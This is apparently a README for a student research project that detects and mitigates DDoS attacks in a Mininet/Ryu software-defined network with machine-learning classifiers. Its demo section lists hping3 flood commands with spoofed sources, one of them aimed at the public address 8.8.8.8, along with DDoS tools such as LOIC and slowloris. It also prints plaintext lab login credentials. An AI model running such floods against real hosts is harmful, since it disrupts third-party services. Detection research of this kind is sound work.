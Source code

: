 # I. Server administration information:
## VMware:
Product: VMware® Workstation 15 Pro  
Version: 15.5.0 build-14665864  
## Ryu Controller:
OS: Ubuntu 19.10 eoan  
IP: 192.168.0.104  
User: ryu  
Pass: ryu  
## Mininet:		
Distributor ID:	Ubuntu
Description: Ubuntu 18.04.6 LTS
Release: 18.04
Codename: bionic
IP:192.168.0.100
User: Will
Pass: CuLy@944


# II. Build SDN network system
## 1. Ryu Controller
**Step 1: Goto my project**
```sh
cd my_project/controller/
```
** Step 2: Start Controller SDN **  
In this directory, I have created multiple Controller files, each corresponding to different machine learning algorithms used for testing in various scenarios of detecting and mitigating DDoS attacks. Specifically:
- DT_controller-detect.py: this file uses a Decision Tree algorithm so the system can detect DDoS attacks.
- KNN_controller-detech.py: uses a K-Nearest Neighbors algorithm. algorithm so the system can detect DDoS attacks.
- RF_controller.py: uses a Randowm Forest algorithm. algorithm so the system can detect DDoS attacks.
- DTree_Controller.py: this file uses a Decision Tree algorithm so the system can detect and mitigate DDoS attacks.
- KNN_Controller.py: uses a K-Nearest Neighbors algorithm so the system can detect and mitigate DDoS attacks.

Controller normal (The controller operates normally and does not have an integrated attack detection and mitigation module):
```sh
ryu-manager ryu.app.simple_switch_13,ryu.app.ofctl_rest flowmanager/flowmanager.py    --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080"
```
Controller detect:
```sh
DTree: ryu-manager DT_controller-detect.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
KNN:   ryu-manager KNN_controller-detech.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
```
Controller detect & mitigation:
```sh
DTree: ryu-manager DTree_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
KNN:   ryu-manager KNN_Controller.py,ryu.app.ofctl_rest flowmanager/flowmanager.py  --observe-links --ofp-tcp-listen-port 6653 --wsapi-port 8080
```
Step 3: Controller management site
```sh
http://192.168.0.104:8080/home/index.html
```
		
## 2. Mininet
Step 1: Goto my project
```sh
cd project/mininet
```
Step 2: Start sflow service
```sh
sudo ./sflow/sflow-rt/start.sh
```
After starting sflow, you should open another command line on linux to initialize mininet  
Step 3: Start mininet  
Within the scope of my experiment, I created 2 mininet files in python3 language. Furthermore, I use the command in linux to create mininet virtual devices, details are as below:
		- Topology 1: 12 hosts and 6 switches
			sudo mn --custom topology.py,sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo mytopo
		- Topology 2: 6 hosts and 3 switches
			sudo mn --custom topology2.py,sflow/sflow-rt/extras/sflow.py --controller=remote,ip=192.168.0.104:6653 --topo mytopo
		- Topology commandline: Linux commandline
			sudo mn -c && sudo mn --custom sflow/sflow-rt/extras/sflow.py --link tc,bw=10 --controller=remote,ip=192.168.0.104:6653 --topo tree,depth=2,fanout=2
		Here, you only use 1 of 3 topologies to test the system.
	Step 4: Make Mininet access Internet
		I wrote a simple script to help mininet's virtualized devices access directly to the Internet. I use it to experiment with hosts inside the system attacking the Internet.
			source /home/will/project/mininet/route-topology2.mn
	Step 5: SDN infrastructure monitoring website
		http://192.168.0.100:8008/html/index.html#status
		http://192.168.0.100:8008/app/mininet-dashboard/html/index.html#charts


III. Demo
	Start the web on any host, here I use host 1 as the web server
		python -m SimpleHTTPServer 80
	Test Web Server: using another host to request to host 1.
		wget http://10.0.0.1
	Icmp flood command: h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood h1
	SYN flood command: 	h6 hping3 -S -V -d 120 -w 64 -p 80 --rand-source --flood h1
	Udp flood command:  h6 hping3 -2 -V -d 120 -w 64 -p 80 --rand-source --flood h1
	attack Controller:  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 10.0.0.104
	attack Public	 :  h6 hping3 -1 -V -d 120 -w 64 -p 80 --rand-source --flood 8.8.8.8
	other tool attack: I use some cehv11 ddos attack tools
		cd project/tool-dos/tool-attack/
		wine Hoic.exe
		mono LOIC.exe
		python pyloris.py
		python3 slowloris.py 10.0.0.1 -p 80
		python torhammer.py -t 10.0.0.1
		python torhammer.py -t 10.0.0.1 -p 80
		python3 saphyra http://10.0.0.1/ (full CPU)
		python3 RDDoS_Tool.py => select 2 => IP - port

In addition to using the CIC dataset, during the process of experimenting with detecting DDoS attacks, I collected and added to the dataset.
	Normal Dataset:
		Controller: ryu-manager collect_benign_trafic.py
		Mininet: sudo python3 generate_benign_trafic.py 
	DDoS Dataset:
		Controller: ryu-manager collect_ddos_trafic.py
		Mininet: sudo python3 generate_ddos_trafic.py
